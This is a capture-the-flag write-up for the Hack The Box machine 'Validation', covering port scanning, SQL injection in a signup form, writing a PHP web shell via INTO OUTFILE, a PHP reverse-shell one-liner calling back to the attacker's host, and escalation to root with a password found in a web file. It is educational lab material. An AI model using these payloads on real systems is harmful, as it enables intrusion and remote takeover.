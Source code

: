 # HTB - Validation

#### Ip: 10.10.11.116
#### Name: Validation
#### Rating: Easy

----------------------------------------------------------------------

![Validation.png](../assets/validation_assets/Validation.png)

### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/HTB/Validation]
└─$ sudo nmap -p- --min-rate 10000 10.10.11.116
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-17 11:35 CDT
Nmap scan report for 10.10.11.116
Host is up (0.066s latency).
Not shown: 65522 closed tcp ports (reset)
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
4566/tcp open     kwtc
8080/tcp open     http-proxy

Nmap done: 1 IP address (1 host up) scanned in 6.79 seconds
```

Lets enumerate open ports a bit further and use the `-sC` and `-sV` flags to use default Nmap scripts and to enumerate versions. I'll also use the `-T4` flag to increase the threads and speed things up.

```text
┌──(ryan㉿kali)-[~/HTB/Validation]
└─$ sudo nmap -sC -sV -T4 10.10.11.116 -p 22,80,4566,8080
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-17 12:02 CDT
Nmap scan report for 10.10.11.116
Host is up (0.069s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8f5efd2d3f98dadc6cf24859426ef7a (RSA)
|   256 463d6bcba819eb6ad06886948673e172 (ECDSA)
|_  256 7032d7e377c14acf472adee5087af87a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.48 seconds
```

Navigating to the site on port 80, we find a page that looks to be a signup for UHC. 

![site.png](../assets/validation_assets/site.png)

Lets capture the request in BurpSuite and see how the registration looks:

```text
POST / HTTP/1.1
Host: 10.10.11.116
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://10.10.11.116
Connection: close
Referer: http://10.10.11.116/
Cookie: user=49f68a5c8493ec2c0bf489821c21fc3b
Upgrade-Insecure-Requests: 1

username=howdy&country=Brazil
```

After tinkering around with the username field a bit, I tried adding a `'` character to the end of Brazil in the `country` field, to test for a possible SQL injection, and it seems we may be onto something!

![find_sqli.png](../assets/validation_assets/find_sqli.png)

I didn't find anything too interesting in the databases, so I'm going to focus my attention on leveraging this SQLi into (hopefully) RCE. 

### Exploitation

Lets try uploading a web shell to `/var/www/html` and see if we can get execution. 

In Burp:

```text
username=howdy&country=Brazil' union select "<?php SYSTEM($_REQUEST['cmd']); ?>" into outfile '/var/www/html/php-shell.php' --+-
```

![php-shell.png](../assets/validation_assets/php-shell.png)

Nice! We have code execution:

![whoami.png](../assets/validation_assets/whoami.png)

From here we should just be able to use a one-liner to get a reverse shell on the box. Lets try with PHP first:

After URL encoding: 

```php
php -r '$sock=fsockopen("10.10.14.20",443);system("sh <&3 >&3 2>&3");'
```

I set up a Netcat listener and navigated to:

```text
10.10.11.116/php-shell.php?cmd=php%20-r%20%27%24sock%3Dfsockopen%28%2210.10.14.20%22%2C443%29%3Bsystem%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```

and caught a shell as www-data:

![shell.png](../assets/validation_assets/shell.png)

Lets quickly stabilize the shell with Python:

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![bash.png](../assets/validation_assets/bash.png)

Ah, no dice. Interestingly, Python doesn't appear to be installed on the box. No worries, we can still stabilize this shell using another command:

```text
/usr/bin/script -qc /bin/bash /dev/null
```

From here we can grab user.txt

![user_flag.png](../assets/validation_assets/user_flag.png)

### Privilege Escalation

Browsing around the machine a bit, I find an interesting file back in `/var/www/html` where we originally landed on this box, and find a password.

![password.png](../assets/validation_assets/password.png)

Lets try to use this credential to switch users to root:

```text
www-data@validation:/var/www/html$ su -
su -
Password: uhc-9qual-global-pw

root@validation:~# whoami
whoami
root
root@validation:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

Nice! All that's left to do now is grab the final flag:

![root_flag.png](../assets/validation_assets/root_flag.png)

Thanks for following along!

-Ryan

-------------------------------------------------------------------
